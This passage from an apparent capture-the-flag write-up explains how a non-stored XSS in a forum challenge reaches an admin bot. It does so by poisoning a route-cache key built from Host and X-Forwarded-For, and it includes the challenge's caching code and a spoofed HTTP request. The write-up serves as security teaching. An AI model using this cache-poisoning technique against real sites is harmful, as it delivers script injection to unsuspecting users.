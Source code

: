 So there it is, we have XSS!

## Now what?

So we can get XSS on a page, but it's a POST request and it's not a stored XSS. So haw can we get the bot to make such a request?
I was stuck here for quite a while, but finally noticed something else. Thinking back, I could have noticed before because when I was testing my XSS injection, I sent a request and then made a different one with a slightly different payload but got the same response from the first payload. At the time I though there was some sort of validation on the payload, like a WAF or something, but what was happening? **CACHING**

This was the last part of the puzzle; you can see that the 2 routes related to previews have some sort of caching enabled:

```javascript
const routeCache = require('route-cache');
...snip...
const cacheKey = (req, res) => {
	return `_${req.headers.host}_${req.url}_${(req.headers['x-forwarded-for'] || req.ip)}`;
}

...snip...

router.post('/threads/preview', AuthMiddleware, routeCache.cacheSeconds(30, cacheKey), async (req, res) => {
...snip...
});

router.get('/threads/preview', AuthMiddleware, routeCache.cacheSeconds(30, cacheKey), async (req, res) => {
	return res.redirect('/threads/new');
});
```

The **/threads/preview** route has caching enabled with route-cache for 30 seconds with a defined **cacheKey**. This cacheKey is defined as a string containing the Host header, the request URL and the IP of the sender **OR** the content of the X-Forwarded-For header. This means that a route will be cached for 30 seconds for a client that matches the cacheKey. That is, if the host header, URL and IP (or X-Forwarded-For header) for a request is the same, the cached response will be returned instead of processing the new request.

This is just what we needed; now we can make a POST request to **/threads/preview** faking the headers to match the key that the bot would match and containing XSS. When the bot makes a request to GET the same URL, the bot will get the cached response with XSS!

So let's try that out. We add the X-Forwarded-For header and change the host header to match 127.0.0.1:1337, which is the IP that the bot uses:

### Request 1 (Inject XSS)
```http
POST /threads/preview?123 HTTP/1.1
Host: 127.0.0.1:1337
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: http://192.168.1.118:1337
DNT: 1
Connection: close
Referer: http://192.168.1.118:1337/threads/new
```